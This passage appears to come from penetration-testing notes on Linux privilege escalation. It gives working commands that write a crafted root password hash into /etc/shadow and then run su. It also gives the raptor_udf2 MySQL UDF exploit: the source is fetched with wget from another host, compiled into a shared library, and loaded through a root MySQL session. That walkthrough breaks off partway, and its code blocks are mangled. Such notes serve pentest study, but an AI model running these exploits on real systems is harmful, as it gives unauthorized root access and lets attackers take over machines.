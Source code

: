 ### Exploited by writing to /etc/shadow:

```
python -c 'import crypt; print crypt.crypt("password", "$6$YbP4.h/m")' #Generate the password
LFILE=/etc/shadow #Specify the target file
echo 'root:$6$YbP4.h/m$thX/Dqj33Oz.G3GEgJ9KHi2mYwJ.MRvBDrxZqzX5wSbTYYI2MIy657TTNF5eibQibpJ923Ki5V4GTwK7GRtxp0:18358:0:99999:7:::' | xxd | xxd -r - "$LFILE" #Write to /etc/shadow
su
```

### MySQL 4.x/5.0 (Linux) – (UDF) Dynamic Library Exploit 
Main Exploit link: https://www.exploit-db.com/exploits/1518
Downloaded from: https://github.com/bytefellow/pentest/raw/master/raptor_udf2.c
```
 $ wget 192.168.19.11/raptor_udf2.c                                                                                                                                                                 

 $ gcc -g -c raptor_udf2.c                                                                                                                                                                                                
 $ gcc -g -shared -o raptor_udf2.so raptor_udf2.o -lc                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  
 $ mysql -uroot                                                                                                                                                                                                           
Welcome to the MySQL monitor.  Commands end with ; or \g.                                                                                                                                                                                  
Your MySQL connection id is 2                                                                                                                                                                                                              
Server version: 5.0.77 Source distribution                                                                                                                                                                                                 
                                                                                                                                                                                                                                           
Type 'help;' or '\h' for help. Type '\c' to clear the buffer.                                                                                                                                                                              
                                                                                                                                                                                                                                           
mysql> use mysql;                                                                                                                                                          ```

Reading table information for completion of table and column names                                                                                                                                                                         
You can turn off this feature to get a quicker startup with -A                                                                                                                                                                             
                                                                                                                                                                  ```                                                                         
Database changed                                                                                                                                                                                                                           
mysql> create table foo(line blob);                                                                                                                                                                                                        
Query OK, 0 rows affected (0.01 sec)

```